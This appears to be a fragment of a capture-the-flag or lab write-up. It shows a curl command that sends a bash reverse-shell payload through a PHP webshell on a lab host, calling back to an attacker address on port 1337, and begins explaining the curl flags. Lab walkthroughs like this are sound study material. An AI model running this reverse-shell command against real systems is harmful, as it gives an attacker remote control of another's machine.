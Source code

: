 ```bash
curl -G http://10.10.110.12/documents/easy-simple-php-webshell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.39/1337 0>&1"'
```
Where:
`-G` is a Get Request
`--data-urlencode` encodes the following syntax